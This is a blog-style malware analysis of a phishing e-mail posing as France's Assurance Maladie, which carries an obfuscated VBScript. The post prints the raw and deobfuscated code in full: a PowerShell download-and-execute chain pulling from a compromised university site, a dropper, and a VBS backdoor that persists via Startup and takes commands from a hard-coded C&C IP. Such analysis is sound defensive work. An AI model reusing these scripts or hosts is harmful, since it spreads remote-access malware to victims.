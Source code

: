 ```yaml
---
title: Quick analysis of a virus
slug: quick-analysis-of-a-malware
date_published: 2022-01-18T22:38:25.000Z
date_updated: 2022-11-29T21:40:53.000Z
tags: [Programming, Security, Code analysis]
---
```


I just received a spam e-mail impersonating the French social security ("Assurance Maladie"), which tells me to download my tax statement which they have graciously attached.

![](image.png){: width="927" height="812"}

There are multiple things to notice here:

*   the sender address: noreply854222025@operacrorg.onmicrosoft.com
*   onmicrosoft.com is used by Office 365 addresses, so they probably used Azure or something like that
*   the whole message is a picture, probably a screenshot of a real e-mail. Well, at least that way they don't write a fake message in broken Google-Translated French

Now, the attachments.

![](image-1.png){: width="584" height="66"}

No PDF file, that's unusual, it's quite common for this kind of spam, but rejoice! we have a VBScript file right there.

(the CSV file and the .bin file don't contain anything interesting, or at least I didn't find anything interesting in them)

Here is the VBS file, raw as I received it:

```vb
on error resume next:on error resume next:on error resume next:on error resume next:on error resume next:on error resume next:on error resume next:on error resume next:JPHgjNP = replace("WiDDXetmcript.iDDXetmhEll","iDDXetm","s"):Set cfAKtQG = CreateObject(JPHgjNP ):izZHSpc = Replace("POWlZsTwIURSHlZsTwIULL","lZsTwIU","E"):WScript.Sleep 2000:WScript.Sleep 2000:cfAKtQGcfAKtQGNXPDFLW = "  $00Q1KNH<##>='(New-';[<##>System.Threading.Thread<##>]::Sleep(2300);$AD77UAZ<##> = '!!!!!!!!!!!! '.Replace(<##>'!!!!!!!!!!!!'<##>,'Object'<##>);<##>$UDKKQV0 <##>= <##>'Net'<##>;<##>$E6IWW9R<##> = <##>'.We';[<##>System.Threading.Thread<##>]::Sleep(2300);<##>$G4OKYRL<##>='.Downlo';<##>$ZT2X8YH<##> = <##>'bClient)';<##>$OOK2YVD=<##>'adString(''https://cursosinf.webs.upv.es/wp-includes//js/jcrop/4.txt'')'<##>;<##>[<##>System.Threading.Thread<##>]::Sleep(2300);$8ZRVUBH<##>=I`E`X (<##>$00Q1KNH<##>,<##>$AD77UAZ<##>,<##>$UDKKQV0<##>,<##>$E6IWW9R<##>,<##>$ZT2X8YH<##>,<##>$G4OKYRL<##>,$OOK2YVD<##> <##>-Join <##>''<##>)<##>|I`E`X":cfAKtQG.Run(izZHSpc+cfAKtQGcfAKtQGNXPDFLW+""),0,True:Set cfAKtQG = Nothing
```

Quite unreadable, if you ask me. Here is it after replacing all the `:` by line breaks, after evaluating the `replace(` calls and merging all the strings together:

```vb
on error resume next
on error resume next
on error resume next
on error resume next
on error resume next
on error resume next
on error resume next
on error resume next
WScript.Sleep 2000
WScript.Sleep 2000
CreateObject("Wscript.shEll").Run("POWERSHELL  $00Q1KNH<##>='(New-';[<##>System.Threading.Thread<##>]::Sleep(2300);$AD77UAZ<##> = '!!!!!!!!!!!! '.Replace(<##>'!!!!!!!!!!!!'<##>,'Object'<##>);<##>$UDKKQV0 <##>= <##>'Net'<##>;<##>$E6IWW9R<##> = <##>'.We';[<##>System.Threading.Thread<##>]::Sleep(2300);<##>$G4OKYRL<##>='.Downlo';<##>$ZT2X8YH<##> = <##>'bClient)';<##>$OOK2YVD=<##>'adString(''https://cursosinf.webs.upv.es/wp-includes//js/jcrop/4.txt'')'<##>;<##>[<##>System.Threading.Thread<##>]::Sleep(2300);$8ZRVUBH<##>=I`E`X (<##>$00Q1KNH<##>,<##>$AD77UAZ<##>,<##>$UDKKQV0<##>,<##>$E6IWW9R<##>,<##>$ZT2X8YH<##>,<##>$G4OKYRL<##>,$OOK2YVD<##> <##>-Join <##>''<##>)<##>|I`E`X"),0,True
```

Sleeps 4 seconds and runs PowerShell with some weird code. Let's have a look at the PowerShell code:

```powershell
$00Q1KNH<##>='(New-';[<##>System.Threading.Thread<##>]::Sleep(2300);$AD77UAZ<##> = '!!!!!!!!!!!! '.Replace(<##>'!!!!!!!!!!!!'<##>,'Object'<##>);<##>$UDKKQV0 <##>= <##>'Net'<##>;<##>$E6IWW9R<##> = <##>'.We';[<##>System.Threading.Thread<##>]::Sleep(2300);<##>$G4OKYRL<##>='.Downlo';<##>$ZT2X8YH<##> = <##>'bClient)';<##>$OOK2YVD=<##>'adString(''https://cursosinf.webs.upv.es/wp-includes//js/jcrop/4.txt'')'<##>;<##>[<##>System.Threading.Thread<##>]::Sleep(2300);$8ZRVUBH<##>=I`E`X (<##>$00Q1KNH<##>,<##>$AD77UAZ<##>,<##>$UDKKQV0<##>,<##>$E6IWW9R<##>,<##>$ZT2X8YH<##>,<##>$G4OKYRL<##>,$OOK2YVD<##> <##>-Join <##>''<##>)<##>|I`E`X
```

Let's remove all those `<##>`s and merge all those strings:

```powershell
[System.Threading.Thread]::Sleep(2300);
[System.Threading.Thread]::Sleep(2300);
[System.Threading.Thread]::Sleep(2300);
$8ZRVUBH=I`E`X ('(New-Object Net.WebClient).DownloadString(''https://cursosinf.webs.upv.es/wp-includes//js/jcrop/4.txt'')' -Join '')|I`E`X
```

Much more readable! So this is just sleeping about 7 seconds and then... it downloads a text file... and runs it? Let's have a look at the link.

`upv.es` is the official website of the _Universitat Politècnica de València_ (Technical University of Valencia). `webs.upv.es` is the subdomain corresponding to the Web hosting service provided by the university. `cursosinf.webs.upv.es` corresponds, I can only guess, to the IT department of the school.

The website is empty at the time I'm writing:

![](image-3.png){: width="1918" height="997"}

But the file itself is still online, and looks like this:

```powershell
try
{
$OutPath = "C:\ProgramData\Links"
if (-not (Test-Path $OutPath))
        {
            New-Item $OutPath -ItemType Directory -Force
        }

(New-Object Net.WebClient).DownloadFile('https://cursosinf.webs.upv.es/wp-includes//js/jcrop/1.txt', 'C:\ProgramData\Links\1.bat')
Start-Sleep 3
start C:\ProgramData\Links/1.bat

Start-Sleep 10

$Content = @'
<binary content>
```

This downloads a batch file which we'll analyse later.

Right now, it's creating an(other) VBS file (comments are mine):

```vb
On error resume next

Public IP, Port, SPL, A, StartupCheck

Set WshNetwork = CreateObject("Wscript.Network")
Set MyObject = CreateObject("Wscript.Shell")

' C&C (Command and Control server)
IP = "185.81.157.26"
Port = "5734"
StartupCheck = "True"
SPL = "|" & "V" & "|"

' Sends an AJAX request
Function POST(ByVal DA, ByVal Param)
	On error resume next
	Dim MSXML, PO, HTTP, UserAgent
	MSXML = "Microsoft.XMLHTTP"
	PO = "POST"
	HTTP = "http://"
	UserAgent = "User-Agent:"
	
	Dim ResponseText
	Set ObjHTTP = CreateObject(MSXML)
	ObjHTTP.Open PO, HTTP & IP & ":" & Port & "/" & DA, False
	ObjHTTP.SetRequestHeader UserAgent, INF
	ObjHTTP.Send Param
	ResponseText = ObjHTTP.ResponseText
	POST = ResponseText
End Function

' Installs the current script in the Startup folder, so that it gets executed at each boot
Sub Installation()
If StartupCheck = "True" Then
	Set FSO = CreateObject("Scripting.FileSystemObject")
	FSO.CopyFile Wscript.ScriptFullName, MyObject.SpecialFolders("Startup") & "\Install32.vbs"
End If
End Sub

Call Installation

Function RandomString()
    Dim str, min, max
    Const LETTERS = "ABCDEFGHIJKLMOPQRSTVWXYZ0123456789"
    min = 1
    max = 15
    Randomize
    For i = 1 to 15
        str = str & Mid( LETTERS, Int((max-min+1)*Rnd+min), 1 )
    Next
    RandomString = str
End Function

' Fetches the version info using WMIC to know what Windows version the computer is running
Function HWID
	Dim objWMIService, colItems, result
	Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
	Set colItems = objWMIService.ExecQuery("SELECT Version FROM Win32_ComputerSystemProduct")
	For Each objItem in colItems
		result = result & objItem.IdentifyingNumber
	Next
	HWID = result
End Function

' Generates a string with the format 
' \PCNAME\Account\Microsoft Windows 10 Professionnel\Windows Defender\Yes\Yes\FALSE\
Function INF
	Dim VR, AV, OS, PC, USER, ID
	VR = "v0.2"
	AV = "Windows Defender"
	PC = WshNetwork.ComputerName
	USER = WshNetwork.UserName
	ID = HWID
		
	Set objWMIService = GetObject("winmgmts:\\.\root\cimv2")
	Set colItems = objWMIService.ExecQuery("Select * from Win32_OperatingSystem",,48)
	For Each objItem in colItems
		OS = OS + objItem.Caption
	Next
	INF = ID & "\" & PC & "\" & USER & "\" & OS & "\" & AV & "\" & "Yes" & "\" & "Yes" & "\" & "FALSE" & "\"
End Function

' Creates a file, fills it with the specified content
' If the extension is PS1, run it with PowerShell
' Otherwise, run it directly
Sub CreateEmptyFile(ByVal Content, ByVal Filename)
	Set FSO = CreateObject("Scripting.FileSystemObject")
	Set FileToWrite = CreateObject("Scripting.FileSystemObject").OpenTextFile(FSO.GetSpecialFolder(2) & "\" & Filename, 2, True)
	FileToWrite.WriteLine(Content)
	FileToWrite.Close
	Set FileToWrite = Nothing
	WScript.Sleep 2000
	If InStr(Filename, ".PS1") = 0 Then
		MyObject.RuN FSO.GetSpecialFolder(2) & "\" & Filename
	Else
		MyObject.ruN "POWERSHELL -EXECUTIONPOLICY REMOTESIGNED -FILE " + FSO.GetSpecialFolder(2) & "\" & Filename, 0
	End If
End Sub

' The interesting part!
' The main control loop
' This fetches, every 3 seconds, a "command" from the C&C server
' This is how the server "tells" the infected computer what to do
Do While True
	A = Split(POST("Vre", ""), SPL)
	Select Case A(0)
    	' creates and run a file with content and filename
		Case "RF"
			CreateEmptyFile A(1), A(2)
        ' creates and run a PowerShell file with content and random filename
		Case "TR"
			CreateEmptyFile A(1), RandomString & ".PS1"
        ' stops the control script
		Case "Cl"
			Wscript.Quit
        ' creates and run a VBscript file with content and random filename
		Case "exc"
			CreateEmptyFile A(1), RandomString & ".vbs"
        ' same as RF, no idea why they made two of them
		Case "Sc"
			CreateEmptyFile A(1), A(2)
        ' same as Cl
		Case "Un"
			Wscript.Quit
	End Select
	WScript.Sleep 3000
Loop
```

The VBS file is then saved and launched:

```powershell
'@
Set-Content -Path C:\ProgramData\Links\install.vbs -Value $Content

Start-Sleep 3
start C:\ProgramData\Links\install.vbs

} catch { }
```

It's quite interesting how "simple" the virus is, really. At the bottom of it, it's just a loop that infinitely POSTs to a server and does something depending on the response.
